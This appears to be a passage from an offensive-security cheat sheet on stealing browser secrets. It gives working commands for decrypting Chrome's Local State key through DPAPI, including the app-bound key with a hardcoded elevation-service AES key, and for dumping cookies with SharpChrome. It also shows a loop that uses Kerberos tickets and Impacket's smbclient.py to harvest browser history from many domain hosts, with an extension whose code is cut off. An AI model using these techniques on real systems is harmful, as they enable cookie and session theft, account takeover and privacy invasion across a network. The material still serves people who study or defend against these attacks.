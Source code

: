 Local state key manual decryption (via DPAPI):

```
$ get C:\Users\user\AppData\Local\Google\Chrome\User Data\Local State
$ cat 'Local State' | jq '.os_crypt.encrypted_key' -r | base64 -d | tail -c +6 | base64 -w0; echo
PS > Add-Type -AssemblyName System.Security
PS > $decrypted = [Convert]::ToBase64String([System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String("<BASE64_BLOB>"), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))
PS > !echo -n $decrypted | base64 -d | od -v -An -tx1 | tr -d ' \n'; echo
PS > .\SharpChrome.exe cookies /statekey:$stateKey
```

App-bound local state key manual decryption (via DPAPI) doing LocalSystem to User context swap:

```
$ get C:\Users\user\AppData\Local\Google\Chrome\User Data\Local State
$ cat 'Local State' | jq '.os_crypt.app_bound_encrypted_key' -r | base64 -d | tail -c +5 | base64 -w0; echo
PS (LocalSystem) > Add-Type -AssemblyName System.Security
PS (LocalSystem) > $systemDecrypted = [Convert]::ToBase64String([System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String("<BASE64_BLOB>"), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser))
PS (User) > $userDecrypted = [System.Security.Cryptography.ProtectedData]::Unprotect([Convert]::FromBase64String($systemDecrypted), $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser)
PS (User) > [Text.Encoding]::ASCII.GetString($userDecrypted)
# Chromium
PS (User) > $stateKey = ($userDecrypted[-32..-1] | % ToString x2) -join ''
# Chrome
$ python -c "import binascii; from Crypto.Cipher import AES; user_decrypted = '$userDecrypted'; decrypted_key = binascii.a2b_base64(user_decrypted)[-61:]; elevation_service_key = binascii.a2b_base64('sxxuJBrIRnKNqcH6xJNmUc/7lE0UOrgWJ2vMbaAoR4c='); cipher = AES.new(elevation_service_key, AES.MODE_GCM, nonce=decrypted_key[1:1+12]); print(cipher.decrypt_and_verify(decrypted_key[13:45], decrypted_key[45:]).hex())"
PS (User) > .\SharpChrome.exe cookies /statekey:$stateKey
```


#### Mass History Harvesting

Collect SQLite history DBs:

```
$ cat get_browser_history.cmd
use c$
getBrowserHistory edge chrome
$ for comp in `cat comps.txt`; do KRB5CCNAME=tickets/"`echo $comp | cut -d'.' -f1`".ccache proxychains4 -q smbclient.py -k -no-pass $comp -inputfile get_browser_history.cmd; sleep 2; done
```

Impacket's **smbclient.py** extension and parsing code to extract latest visits per a domain from `urls` table:

{% tabs %}
{% tab title="Extension" %}
{% code title="getBrowserHistory.py" %}
```python
def do_getBrowserHistory(self, browsers):
	browsers = [name.lower() for name in browsers.split()]
	for browser in browsers:
		if browser not in ('edge', 'chrome'):
			LOG.error(f'Unsupported browser: {browser}')
			return False

	usernames = []
	try:
		for item in self.smb.listPath(self.share, '\\Users\\*'):
			username = item.get_longname()
```